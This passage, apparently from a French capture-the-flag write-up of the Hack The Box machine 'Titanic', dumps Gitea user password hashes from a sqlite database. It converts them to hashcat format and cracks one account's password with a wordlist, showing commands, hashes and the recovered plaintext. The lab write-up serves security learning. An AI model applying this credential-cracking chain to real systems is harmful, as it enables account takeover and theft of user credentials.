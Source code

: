 ```bash
4|b|b||b@b.com|0|enabled|097c3c0cdbf50b536b20ef5e22b6dd8e58fbfa6230003f60a6a15577107d48618814da5e1c2984e3775fdbea3f61c41cd0ce|pbkdf2$50000$50|0|0|0||0|||d49587abbc61243dfde5146bec7ee24b|47b1683e379bca325752efd85fe1c31b|en-US||1740008072|1740008072|1740008072|0|-1|1|0|0|0|0|1|0|2076105f6efe7c11e285add95f514b9a|b@b.com|0|0|0|0|0|0|0|0|0||gitea-auto|0
```

┌──(kali㉿kali)-[~/htb/Titanic]
└─$ john --list=format-details --format=pbkdf2-hmac-sha256

PBKDF2-HMAC-SHA256      125     24      192     01000003        48      PBKDF2-SHA256 256/256 AVX2 8x                   0x107   32      188     iteration count 0       $pbkdf2-sha256$1000$b1dWS2dab3dKQWhPSUg3cg$UY9j5wlyxtsJqhDKTqua8Q3fMp0ojc2pOnErzr8ntLE

sqlite> select name, passwd_hash_algo, salt, passwd from user;
administrator|pbkdf2$50000$50|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer|pbkdf2$50000$50|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
a|pbkdf2$50000$50|24fc79c6b2aadeb9555d40312ac55460|0ae3825641016406643a122f7f3ca6c6b5cfc76abd40075f73eb8deff4cce5448bfa95dc5a4ff81d62cb77921cd224b2010d
b|pbkdf2$50000$50|47b1683e379bca325752efd85fe1c31b|097c3c0cdbf50b536b20ef5e22b6dd8e58fbfa6230003f60a6a15577107d48618814da5e1c2984e3775fdbea3f61c41cd0ce

Ce qui nous donne :

sha256:50000:2d149e5fbd1b20cf31db3e3c6a28fc9b:cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
sha256:50000:8bf3e3452b78544f8bee9400d6936d34:e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
sha256:50000:24fc79c6b2aadeb9555d40312ac55460:0ae3825641016406643a122f7f3ca6c6b5cfc76abd40075f73eb8deff4cce5448bfa95dc5a4ff81d62cb77921cd224b2010d
sha256:50000:47b1683e379bca325752efd85fe1c31b:097c3c0cdbf50b536b20ef5e22b6dd8e58fbfa6230003f60a6a15577107d48618814da5e1c2984e3775fdbea3f61c41cd0ce

Enfin, en format hashcat avec du base64:

sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
sha256:50000:JPx5xrKq3rlVXUAxKsVUYA==:CuOCVkEBZAZkOhIvfzymxrXPx2q9QAdfc+uN7/TM5USL+pXcWk/4HWLLd5Ic0iSyAQ0=
sha256:50000:R7FoPjebyjJXUu/YX+HDGw==:CXw8DNv1C1NrIO9eIrbdjlj7+mIwAD9gpqFVdxB9SGGIFNpeHCmE43df2+o/YcQc0M4=

On trouve ensuite le mot de passe developer en utilisant hashcat :
```bash
$ hashcat -m 10900 hash_final.txt.b64 ~/wordlists/rockyou.txt
hashcat (v6.2.5) starting
...

Dictionary cache hit:
* Filename..: /home/leopold/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139922195
* Keyspace..: 14344385

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```
developer : `25282528`
